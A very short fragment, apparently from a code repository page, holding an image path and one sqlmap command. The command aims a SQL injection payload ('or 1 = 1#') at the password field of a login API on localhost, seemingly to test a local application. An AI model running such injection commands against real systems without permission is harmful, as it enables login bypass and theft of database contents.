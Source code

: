 python sqlmap.py -u http://localhost:3500/api/v1/customers/login --data="username=test&password=admin' or 1  =  1#" -p password